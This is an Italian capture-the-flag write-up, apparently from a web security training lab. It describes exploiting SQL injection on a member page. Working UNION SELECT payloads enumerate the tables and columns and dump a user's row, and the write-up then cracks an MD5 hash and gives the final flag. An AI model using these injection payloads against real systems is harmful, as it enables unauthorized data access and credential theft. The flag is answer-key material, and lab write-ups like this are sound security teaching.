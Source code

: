 # SQL Injection Members
Nella pagina `http://192.168.56.134/?page=member` troviamo un input vulnerabile ad un attacco SQL Injection,
di conseguenza come prima cosa andiamo a leggere tutte le tabelle presenti nel db con la seguente query:
```sql
1 AND 1=2 UNION SELECT table_name, 1 FROM information_schema.tables
```
e scopriamo la tabella `users`, quindi ora andiamo a leggere tutte le colonne della tabella `users` con la query:
```sql
1 AND 1=2 UNION SELECT column_name, 1 FROM information_schema.columns WHERE TABLE_NAME = char(117,115,101,114,115)
```
Provando a cercare per `id` nell'input troviamo l'user con id 5 che contiene campi interessanti recuperati con 
le seguenti query:
```sql
1 AND 1=2 UNION SELECT user_id,first_name FROM users WHERE user_id=5
1 AND 1=2 UNION SELECT last_name,town FROM users WHERE user_id=5
1 AND 1=2 UNION SELECT country,planet FROM users WHERE user_id=5
1 AND 1=2 UNION SELECT Commentaire,countersign FROM users WHERE user_id=5
```
```
user_id     5
first_name  Flag
last_name   GetThe
town        42
country     42
planet      42
Commentaire Decrypt this password -> then lower all the char. Sh256 on it and it's good !
countersign 5ff9d0165b4f92b14994e5c685cdce28
```
Tramite il sito [hashes](https://hashes.com/en/tools/hash_identifier) scopriamo che si tratta di un md5 quindi con 
[md5.gromweb](https://md5.gromweb.com/?md5=5ff9d0165b4f92b14994e5c685cdce28) lo decifriamo e troviamo la stringa
`FortyTwo`, ora proprio come dice nel commento portiamo tutti i caratteri in minuscolo e lo decriptiamo in sha256 con
[questo](https://emn178.github.io/online-tools/sha256.html) sito, avendo così la flag:
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```